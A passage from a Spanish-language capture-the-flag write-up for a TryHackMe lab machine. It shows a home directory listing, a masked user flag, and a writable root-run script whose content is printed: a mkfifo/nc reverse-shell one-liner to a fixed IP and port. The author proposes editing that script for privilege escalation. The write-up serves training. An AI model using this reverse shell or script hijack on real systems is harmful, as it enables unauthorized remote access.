```bash
drwx------  2 itguy itguy 4096 Nov 29  2019 .gconf
drwx------  3 itguy itguy 4096 Nov 30  2019 .gnupg
drwx------  3 itguy itguy 4096 Nov 29  2019 .local
drwx------  5 itguy itguy 4096 Nov 29  2019 .mozilla
-rw-------  1 itguy itguy  149 Nov 29  2019 .mysql_history
drwxrwxr-x  2 itguy itguy 4096 Nov 29  2019 .nano
-rw-r--r--  1 itguy itguy  655 Nov 29  2019 .profile
-rw-r--r--  1 itguy itguy    0 Nov 29  2019 .sudo_as_admin_successful
-rw-r-----  1 itguy itguy    5 Nov 30  2019 .vboxclient-clipboard.pid
-rw-r-----  1 itguy itguy    5 Nov 30  2019 .vboxclient-display.pid
-rw-r-----  1 itguy itguy    5 Nov 30  2019 .vboxclient-draganddrop.pid
-rw-r-----  1 itguy itguy    5 Nov 30  2019 .vboxclient-seamless.pid
-rw-------  1 itguy itguy   82 Nov 30  2019 .xsession-errors
-rw-------  1 itguy itguy   82 Nov 29  2019 .xsession-errors.old
drwxr-xr-x  2 itguy itguy 4096 Nov 29  2019 Desktop
drwxr-xr-x  2 itguy itguy 4096 Nov 29  2019 Documents
drwxr-xr-x  2 itguy itguy 4096 Nov 29  2019 Downloads
drwxr-xr-x  2 itguy itguy 4096 Nov 29  2019 Music
drwxr-xr-x  2 itguy itguy 4096 Nov 29  2019 Pictures
drwxr-xr-x  2 itguy itguy 4096 Nov 29  2019 Public
drwxr-xr-x  2 itguy itguy 4096 Nov 29  2019 Templates
drwxr-xr-x  2 itguy itguy 4096 Nov 29  2019 Videos
-rw-r--r-x  1 root  root    47 Nov 29  2019 backup.pl
-rw-r--r--  1 itguy itguy 8980 Nov 29  2019 examples.desktop
-rw-rw-r--  1 itguy itguy   16 Nov 29  2019 mysql_login.txt
-rw-rw-r--  1 itguy itguy   38 Nov 29  2019 user.txt
```

Excelente, al haber encontrado la flag del usuario, procedemos a leerla.

```bash
www-data@THM-Chal:/home/itguy$ cat user.txt 
THM{********************************}
```

### Binario con permisos SUDO

También encontramos un archivo Perl que ejecuta el script `/etc/copy.sh`. 

Al examinar el script, nos damos cuenta de que genera una reverse shell hacia la dirección IP 192.168.0.190 y el puerto 5554.

```bash
www-data@THM-Chal:/home/itguy$ cat backup.pl 
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Si leemos los permisos del script podemos observar que tenemos permisos de escritura. 

Podemos considerar realizar modificaciones en el script para establecer una conexión de reverse shell hacia nuestro equipo atacante.
